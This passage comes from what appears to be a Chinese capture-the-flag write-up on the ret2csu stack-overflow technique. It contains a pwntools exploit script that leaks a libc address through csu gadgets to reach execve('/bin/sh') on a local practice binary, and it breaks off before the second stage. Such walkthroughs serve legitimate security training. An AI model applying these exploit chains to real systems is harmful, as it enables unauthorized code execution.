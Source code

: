     

-   再次利用栈溢出执行 libc\_csu\_gadgets 执行 execve('/bin/sh') 获取 shell。
    
    [![](assets/1701678439-fbc23d546ebbb9c7569bd2f47ce623dc.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20231129204004-6bdb416c-8eb4-1.jpg)
    

脚本：

```plain
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *

p = process('./ret2csu')
e = ELF('./ret2csu')
context.log_level = 'debug'

gatget1_addr = 0x000000000040061A
gatget2_addr = 0x0000000000400600
main_got_addr = e.symbols['main']
write_got_addr = e.got['write']
read_got_addr = e.got['read']
bss_addr = e.bss()

def csu(rbx,rbp,r12,r13,r14,r15,main_addr):
    payload = 'A'*136
    payload += p64(gatget1_addr)+p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
    payload += p64(gatget2_addr)
    payload += 'A'*56
    payload += p64(main_addr)
    p.send(payload)
    sleep(1)

#第一次发送 payload，获取 write 函数的真实地址
p.recvuntil('Hello, World\n')
csu(0,1,write_got_addr,8,write_got_addr,1,main_got_addr)      
write_rel_addr = u64(p.recv(8))
print hex(write_rel_addr)
libc = LibcSearcher('write',write_rel_addr)
libc_base = write_rel_addr-libc.dump('write')
system_addr = libc_base+libc.dump('execve')                    #从 system 更换成 execve

#第二次发送 payload，将 system 函数地址和字符串/bin/sh 写入 bss 段
```